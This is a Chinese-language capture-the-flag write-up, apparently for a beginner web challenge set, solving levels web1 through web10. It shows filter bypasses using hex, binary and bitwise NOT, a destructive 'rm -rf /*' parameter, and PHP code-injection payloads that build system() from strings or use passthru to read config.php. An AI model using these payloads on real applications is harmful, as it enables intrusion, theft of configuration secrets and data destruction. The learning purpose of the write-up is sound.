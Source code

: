 ## 2022-3-13 萌新区
### web1
![image](https://user-images.githubusercontent.com/44671805/158057441-fe61a684-2db2-496e-800a-a77adb9b486f.png)
- 点进靶场看了一下源代码，大致意思说可以接受get传参，flag在id=1000的传参界面，但是代码里会判断id的值,如果直接输入1000则会触发id>999，引发错误。
一开始没有思路，看了下别人的WP，说可以使用十六进制，将1000转成16进制试了一下果然可以了
也可以先传一个id=100再加 or id=1000
![image](https://user-images.githubusercontent.com/44671805/158057557-78eca79c-b16a-46fc-a8d8-dad0e8cb546f.png)

### web2
![image](https://user-images.githubusercontent.com/44671805/158057903-7e06112f-17ef-40d0-9a67-4a765f4306e6.png)
可以看出第二关过滤了or，但是可以利用取反~，两次取反还是1000
![image](https://user-images.githubusercontent.com/44671805/158057961-862fbdc2-c24d-4d0d-9249-b46077d1f32b.png)

### web3
第三关同样没有过滤~，和第二关一样
![image](https://user-images.githubusercontent.com/44671805/158058098-a5d3b603-5266-4fe6-be6c-953099c72b2d.png)

### web4
第四关同理

### web5
第五关同理

### web6
第六关同理

### web7
第七关过滤了很多，但是可以将1000转成二进制，?id=0b1111101000
![image](https://user-images.githubusercontent.com/44671805/158058404-b57c6e12-8380-4427-a513-575bb5679956.png)

### web8
不太懂...大佬们是怎么把这个和这个梗联系起来的 ?flag=rm -rf /*

## 2022-3-17
### web9
![image](https://user-images.githubusercontent.com/44671805/158771656-a3675348-bfd5-4bf1-aa89-cce81d785ddc.png)
?c=highlight_file('config.php');
![image](https://user-images.githubusercontent.com/44671805/158772860-48863ad4-dcbb-4e38-ad12-a1fb184176a5.png)

### web10
可以看出，web10代码里说传参不能包含这几个函数
![image](https://user-images.githubusercontent.com/44671805/158773620-58f548b9-0b2c-45db-abc3-b1373f8e0503.png)
?c=$a='sys';$b='tem';$d=$a.$b;$d('cat config.php');
也可以用passthru代码绕过
?c=passthru('tac config.php');
passthru和system基本相同
![image](https://user-images.githubusercontent.com/44671805/158776734-f0f52c75-0919-41c5-9794-5a9eed0c035f.png)
![image](https://user-images.githubusercontent.com/44671805/158777498-42d5aaaf-5d45-4af9-abd4-866a2479ec88.png)



